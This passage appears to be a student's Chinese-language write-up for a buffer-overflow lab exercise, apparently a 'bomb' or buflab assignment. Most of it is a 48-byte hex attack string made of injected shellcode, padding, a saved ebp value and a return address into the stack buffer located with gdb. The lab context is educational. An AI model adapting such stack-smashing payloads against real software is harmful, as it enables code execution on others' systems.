

# 方法一
构造攻击字符串
bomb_U202031233061.txt 如下：
b8 9b 98 43
39 68 d6 8c
04 08 c3 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
f0 2e 68 55
98 2e 68 55
总共48个字节，前11个字节，抄自 attack.txt，倒数8-4个字节，是原 ebp 的值，最后4个字节，是 gdb 调试出的缓冲区首地址。